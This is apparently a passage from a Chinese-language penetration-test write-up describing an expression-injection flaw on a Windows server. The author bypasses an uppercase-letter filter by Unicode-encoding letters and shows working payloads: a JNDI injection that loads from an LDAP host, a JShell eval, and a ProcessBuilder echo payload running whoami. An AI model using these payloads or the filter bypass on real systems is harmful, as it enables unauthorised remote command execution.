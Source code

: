 一开始以为是将一些危险的函数之类的做了黑名单的处理，进一步测试发现是将用户输入的所有大写字母都做了处理，不知道开发人员是怎么想的呢？让人摸不着头脑。

![图片](assets/1706513706-e3fb497074ec11eb0983d57e96deec51.png)

经过不懈的努力之后发现直接用 unicode 编码 payload 的大写字母就可以绕过了，如下，无回显执行命令成功。  

![图片](assets/1706513706-97fa4ad3d7c5a0ee0d21746e0fdcfcda.png)

当然，在不考虑实际漏洞利用环境限制的前提下，还有很多可以执行命令的方式。例如：

```bash
${new javax.naming.InitialContext().lookup("ldap://xxx.xxx.xxx.xxx/a")}  #JNDI 注入利用，需要出网条件
${@jdk.jshell.Jshell@create().eval('java_code')}  #需要 JDK9 以后版本
```

构造回显 payload，成功执行 whoami 命令，得知服务器操作系统为 Windows，用户权限为管理员权限。  

```bash
${#a=(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder({'whoami'}).start().getInputStream()))).readLine()}
```

![图片](assets/1706513706-e7e3b0aed83cc9592f4300824e9507fb.png)
